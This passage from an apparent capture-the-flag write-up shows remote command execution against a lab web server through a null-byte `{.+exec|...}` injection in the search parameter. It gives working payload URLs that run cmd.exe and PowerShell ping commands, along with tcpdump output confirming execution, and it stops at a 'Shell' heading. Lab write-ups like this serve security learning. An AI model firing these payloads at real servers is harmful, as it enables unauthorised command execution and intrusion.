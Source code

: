 

In Python, `{}` in a f-string (notice the url is wrapped in `f' '`)
represent variables, so the `{{` and `}}` are how you escape to write
actual curly brackets. So this is just a single HTTP request to
`/?search={.+exec|[url-encoded command].}` to get RCE.



    http://10.10.10.8/?search=%00{.+exec|C%3A%5Cwindows%5Csystem32%5Ccmd.exe%20/c%20ping%2010.10.14.10.}



Or URL decoded:



    http://10.10.10.8/?search=%00{.+exec|c:\windows\system32\cmd.exe+/c+ping+-c+1+10.10.14.10.}



### POC

As a proof of concept, I crafted this URL to try to ping myself:



    http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}



If it works, I should see a single ICMP packet at my host. I started
`tcpdump` and submitted, and nothing.

Often, this can be an issue with the system not finding the path to
`ping` in this current environment. So I tried adding `cmd /c` before
the command:



    http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}



It worked (interestingly four times):



    oxdf@parrot$ sudo tcpdump -i tun0 icmp and src 10.10.10.8
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    16:16:51.416240 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 117, length 40
    16:16:51.416294 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 118, length 40
    16:16:51.416309 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 119, length 40
    16:16:51.418739 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 120, length 40



I can also run it with PowerShell:



    http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.14.10.}



### Shell
